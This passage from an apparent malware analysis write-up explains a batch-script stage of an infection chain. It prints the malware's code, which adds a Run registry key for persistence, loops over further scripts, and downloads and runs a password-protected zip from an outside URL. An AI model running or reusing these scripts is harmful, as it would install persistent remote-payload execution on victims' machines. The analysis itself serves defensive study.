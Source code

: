 **TL;DR**: It sneakily kicks off `60901024.bat` without you noticing.

## Stage 5: The Batch Files

### First Batch Script: 60901024.bat

```bat
@echo off
pushd "%~dp0"
if exist "57579534.bat" (
    reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v startsvc1 /t REG_SZ /d "%~dp0start.vbs" /f > nul
    call 57579534.bat > nul
    call 54744204.bat > nul
    del /f /q 57579534.bat > nul
)
if not exist "57579534.bat" (
    if not exist "upok.txt" (
        call 54744204.bat > nul
    )
)
if not exist "f.txt" (goto 1)
if exist "f.txt" (goto EXIT)
:1
call 54312804.bat > nul
timeout -t 57 /nobreak
if not exist "f.txt" (goto 1)
if exist "f.txt" (goto EXIT)
:EXIT
del /f /q "f.txt"
```

1. **Changes directory** to where the script is located.
2. If `57579534.bat` exists:
    - **Adds a persistence key** to the Windows Registry to auto-run `start.vbs` on startup.
    - Executes `57579534.bat` and `54744204.bat`, then deletes `57579534.bat`.
3. If `57579534.bat` doesn't exist:
    - If `upok.txt` also doesn't exist, it still executes `54744204.bat`.
4. **Enters a loop**:
    - Keeps calling `54312804.bat` every ~57 seconds **until `f.txt` is found**.
    - Once `f.txt` is found, it deletes it and exits.

### Second Batch Script: 57579534.bat

```bat
@echo off
pushd %~dp0
set fn=di3726
call 53452693.bat "https://ausbildungsbuddy.de/modules/mod_mail/inc/get.php?ra=iew&zw=lk0100" "%~dp0%fn%.zip" "1" > nul
if not exist %~dp0%fn%.zip (
    goto END1
)
set dt=1.bat
if not "%dt%"=="" (
    call unzip.exe -o -P "a0" "%~dp0%fn%.zip" > nul
    del /f /q %~dp0%fn%.zip > nul
    if exist %~dp0%dt% (
        call %~dp0%dt% > nul
    )
)
:END1
if exist %~dp0%fn%.zip (
    del /f /q %~dp0%fn%.zip > nul
```